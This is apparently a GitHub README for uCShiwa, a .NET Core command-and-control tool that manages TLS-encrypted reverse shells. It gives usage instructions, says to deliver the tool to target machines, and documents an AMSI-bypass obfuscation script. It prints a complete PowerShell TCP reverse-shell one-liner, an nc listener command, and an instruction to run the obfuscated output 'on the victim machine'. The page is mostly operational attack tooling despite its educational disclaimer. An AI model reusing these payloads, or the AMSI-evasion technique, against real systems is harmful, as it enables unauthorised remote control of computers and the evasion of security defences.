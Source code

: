 # uCShiwa

.NET Core light C2 Unit:

- Manage multiple revershells
- Use TLS and command obfuscation
- Keep It Simple, Stupid

This tool is presented for educational purpose.
It was used in real security tests and in advenced penetration testing labs (2020-2022).

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## Help & Documentation

Execute it without any options to print help

## Server

```shell
Ucshiwa.exe <port> <certificate.pfx> <passwd>

<0> Server mode
<0> Port: 4444
Cipher: Aes256
Hash: Sha384
Protocol: Tls12

<0> 10.10.10.10:1234 > (Your command)
```

## ReverseShell

```shell
Ucshiwa.exe <ip> <port>

<0> Reverse Shell mode
<0> Ip: 10.10.10.10
<0> Port: 4444
CN:CN=...
ExpirDate:...
PubKey:....
```

## Mutli-Client

Several revershells can be used on the same server (IP:port): 

- Clients connect periodically
- The first connected, the first tasked.
- The `exit` command allows you to change session
- The `bg` command allows you to run command in background and change session

## Encrytion

TLS 1.2

Consider the default `cert.pfx` file as compromised (password: ucshiwa). A quick way to generate your own is the `New-SelfSignedCertificate`:

```powershell
New-SelfSignedCertificate -DnsName Ucshiwa.lan -CertStoreLocation Cert:\CurrentUser\My\  -KeyAlgorithm RSA -KeyLength 4096
certmgr.msc # export the generated certificate as password protected .pfx file 
```

## Obfuscation

This is the default behavior, feel free to adapt the source code:

- Powershell is embeded in windows/linux clients (many libs but no child process creation)
- On server side, put `Shellingan.ps1` in the same directory to automatically perform command obfuscation (AMSI bypass)

## Authentication

Certificate is manualy validated during the revershell connection

## Multi-Platform

- Windows: `dotnet publish --self-contained true`
- Linux: `dotnet publish -r linux-x64 --self-contained true`

## Delivery

Unzip it on the target machine with the `Expand-Archive` cmdlet

## To use Shellingan.ps1 as a standalone script for AMSI Bypass

### Import

```powershell
. .\shellingan.ps1
```

### Options

```console
-cmd: command obfuscation
-iex: add invoke-expression
-recurse: number of obfuscation loop
```

### Exemple

From your attack machine:
```console
nc64.exe -lnvp <port>
```


```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Execute the output on the victim machine to get your reverse shell

## Misc

this project contains also an exemple of how obfuscate Sharphound (BloodHound ingestor)

## Love uCShiwa ? 

Help me to keep uCShiwa free and open-source

* [Ethereum Donation](https://etherscan.io/address/0xcC424e30Ff6eEAb4E6B3A900c5446038F858b314)